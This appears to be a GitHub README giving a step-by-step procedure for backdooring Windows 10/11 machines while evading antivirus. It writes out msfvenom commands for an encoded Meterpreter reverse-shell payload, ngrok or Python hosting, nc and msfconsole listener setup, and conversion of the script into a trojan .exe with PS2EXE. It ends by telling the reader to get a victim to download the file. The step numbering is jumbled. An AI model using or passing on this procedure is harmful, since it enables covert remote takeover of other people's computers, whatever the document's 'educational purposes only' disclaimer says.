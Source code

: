 # Windows 11/10 Evade AV & Backdoor

#### **NOTE: For educational purposes only!**
#### **NOTE: Some Meterpreter commands may upset Defender.**

## Steps to Compromise:

1. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -i 2 -e cmd/powershell_base64 -f ps1
4. **Setup server in files directory:** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
6. **Base64 encode the trojan.ps1 script.** <br>
trojan.ps1 <br>
7. **Convert our encoded trojan.ps1 into .exe using PS2EXE.** <br>
encoded_trojan.ps1
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
  
# Demonstration Video
Insert video in markdown!
